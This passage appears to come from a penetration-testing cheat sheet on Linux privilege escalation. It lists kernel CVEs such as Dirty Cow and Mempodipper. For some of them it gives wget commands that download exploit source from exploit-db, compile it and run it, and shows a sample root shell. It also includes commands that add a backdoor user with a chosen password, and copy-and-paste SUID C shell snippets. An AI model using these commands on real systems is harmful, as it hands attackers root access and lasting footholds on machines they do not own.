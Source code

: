 -   CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)

    [https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)

         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

-   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
    [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)

-   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
    [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)
    Linux CVE 2012-0056

          wget -O exploit.c http://www.exploit-db.com/download/18411
          gcc -o mempodipper exploit.c
          ./mempodipper

-   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
    [https://dirtycow.ninja/](https://dirtycow.ninja/)
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

-   Run a command as a user other than root

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

-   Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor
          echo thePassword | passwd haxzor --stdin

-   Local Privilege Escalation Exploit in Linux

    -   **SUID** (**S**et owner **U**ser **ID** up on execution)
        Often SUID C binary files are required to spawn a shell as a
        superuser, you can update the UID / GID and shell as required.

        below are some quick copy and paste examples for various
        shells:

              SUID C Shell for /bin/bash

              int main(void){
              setresuid(0, 0, 0);
              system("/bin/bash");
              }

              SUID C Shell for /bin/sh

              int main(void){
              setresuid(0, 0, 0);
              system("/bin/sh");
              }
